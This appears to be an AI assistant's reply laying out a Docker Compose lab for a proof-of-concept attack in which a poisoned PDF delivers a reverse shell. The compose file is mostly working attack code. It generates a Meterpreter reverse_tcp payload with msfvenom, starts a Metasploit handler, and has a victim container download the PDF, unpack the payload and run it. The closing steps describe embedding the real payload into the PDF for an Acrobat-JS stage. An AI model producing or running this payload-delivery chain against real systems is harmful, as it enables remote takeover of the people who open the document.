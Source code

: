 Switching to containers can give you an extremely lightweight, reproducible lab for an end‑to‑end PoC. Here’s one way to wire it up:

---

## 1. Overall Docker‑Compose Topology

```
                ┌───────────────┐
                │  attacker     │
                │  (Kali image) │
                └──────┬────────┘
                       │ listen 4444
    poc‑net            ▼
             ┌────────────────┐     HTTP    ┌────────────────┐
             │  http-server   │◀───────────▶│   target       │
             │ (python:3.10)  │             │ (Ubuntu image) │
             └────────────────┘             └────────────────┘
```

- **attacker** will generate the PDF, run `msfconsole`/`nc -lvp 4444`, and serve your PoC files via SSH‑mounted volume or HTTP.  
- **http‑server** hosts the full payload (for a 2‑stage download) or even the PDF if you prefer.  
- **target** pulls down the PDF, runs a small script (simulating the PDF‑JS extraction) and executes the stager, yielding a reverse shell back to **attacker**.

All three live on a single user‑defined bridge network (`poc‑net`), so you don’t have to fuss with public IPs or firewalls.  

---

## 2. Example `docker-compose.yml`

```yaml
version: "3.8"
services:
  attacker:
    image: kalilinux/kali-rolling
    container_name: poc_attacker
    cap_add: 
      - NET_ADMIN
    networks:
      - poc-net
    volumes:
      - ./output:/opt/poc         # host folder where PDF & payload land
    command: >
      bash -lc "
        apt update && apt install -y metasploit-framework nc curl pdftk &&
        msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacker LPORT=4444 -f elf > /opt/poc/shell.elf &&
        # (optional) build your PDF here, drop into /opt/poc/attack.pdf
        msfconsole -q -x 'use exploit/multi/handler;
                         set payload linux/x86/meterpreter/reverse_tcp;
                         set LHOST attacker;
                         set LPORT 4444;
                         run'"
  http-server:
    image: python:3.10-slim
    container_name: poc_http
    networks:
      - poc-net
    working_dir: /opt/serve
    volumes:
      - ./output:/opt/serve
    command: python3 -m http.server 8000
  target:
    image: ubuntu:22.04
    container_name: poc_victim
    networks:
      - poc-net
    depends_on:
      - http-server
    volumes:
      - ./output:/opt/poc
    command: >
      bash -lc "
        apt update && apt install -y poppler-utils curl netcat &&
        # 1) simulate user downloading the poisoned PDF
        curl -s http://http-server:8000/attack.pdf -o /tmp/attack.pdf &&
        # 2) simulate Acrobat‑JS extraction: use pdftk to unpack the embedded payload
        pdftk /tmp/attack.pdf unpack_files output /tmp/ &&
        # 3) give it execute permissions and run
        chmod +x /tmp/shell.elf && /tmp/shell.elf"
networks:
  poc-net:
    driver: bridge
```

- **`attacker`** uses `msfvenom` → writes `shell.elf` into `./output`, then spins up a handler.  
- **`http-server`** serves everything in `./output` at `http://http-server:8000/`.  
- **`target`** downloads `attack.pdf` , unpacks payload via `pdftk` (mimicking your JS stage), and runs it—triggering a callback to `attacker:4444`.

---

## 3. Feasibility & Limitations

1. **No Windows containers**  
   - Docker on Linux cannot run real Acrobat‑JS or Windows binaries. For a true Windows PoC you’d still need a VM/WSL2 or a Windows‑based container host.  
2. **PDF‑JS stage is simulated**  
   - We use `pdftk unpack_files` in the container rather than a real PDF‑JS engine. This lets you validate your embed+extract logic end‑to‑end.  
3. **Networking is trivial**  
   - All services speak by name (`attacker`, `http-server`, `target`) over the `poc-net` bridge. No NAT or port‑forwarding headaches.  
4. **Rapid iteration**  
   - Change your embedding script (or the PDF itself) on the host; simply `docker-compose up --build` to retest.  
5. **Logging & cleanup**  
   - All inputs/outputs live in `./output`. Tear down with `docker-compose down -v` and start fresh.

---

### Next Steps

- **Embed your actual payload** into the PDF in `./output/attack.pdf` (e.g. via a Python or Node script mounted into the `attacker` service).  
- **Swap** the `pdftk unpack_files` call in `target` for a headless JS runner—or simply test your JS manually against the PDF.  
- **Confirm** the Metasploit session lands in the `attacker` container’s console.
